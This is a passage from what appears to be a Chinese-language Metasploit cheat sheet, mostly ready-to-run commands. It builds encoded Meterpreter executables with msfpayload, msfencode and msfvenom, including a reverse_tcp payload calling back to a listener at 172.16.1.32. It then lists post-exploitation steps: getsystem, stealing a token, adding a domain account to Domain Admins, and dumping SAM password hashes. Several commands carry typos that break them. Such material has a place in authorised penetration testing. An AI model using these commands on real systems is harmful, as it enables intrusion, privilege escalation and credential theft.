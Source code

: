 msfpayload windows/meterpreter/bind_tcp LPORT=443 R|msfencode -0 payload.exe -e x86/shikata_ga_nai -c 7 exe & & msfcli multi/bandler PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 E

创建一个raw格式的bind_tcp模式Meterpreter攻击载荷，用shikata_ga_nai编码7次，输出以payload.exe命名的windows可执行程序文件，同时启用多路监听方式进行执行。

 

7.MSFvenom

利用MSFvenom，一个集成套件，来创建和编码你的攻击载荷。

msfvenom --payload

windows/meterpreter/reverse_tcp --format exe --encoder x86/shikata_ga_nai LHOST=172.16.1.32 LPORT=443 > msf.exe

[*] x86/shikata_ga_nai succeeded with size 317(iteration=1)

root://opt/framework3/msf3#

 

这一行命令就可以创建一个攻击载荷并自动产生出可执行文件格式。

 

8.Meterpreter后渗透攻击阶段命令。

在Windows主机上使用metarpreter进行提权操作。

meterpreter>use priv

meterpreter>getsystem

从一个给定的进程ID中窃取一个域管理员组令牌，添加一个域账户，并把域账户添加到域管理员组中。

 

meterpreter>ps

 

meterpreter>steal_token 1784

meterpreter>shell

c:\windows\sysem32>user metasploit @password /ADD /DOMAIN

c:\windows\sysem32>net group "Domain Admins" metasploit /ADD /DOMAIN

 

从SAM数据库中导出密码的哈希值。

meterpreter>use  priv

meterpreter>getsystem

meterpreter>hashdump

提示：在widonws 2008中，如果getsystem命令和hashdump命令抛出异常情况时，你需要迁移到一个以SYSTEM系统权限运行的进程中。

自动迁移到一个独立进程。

meterpreter>run migrate

 
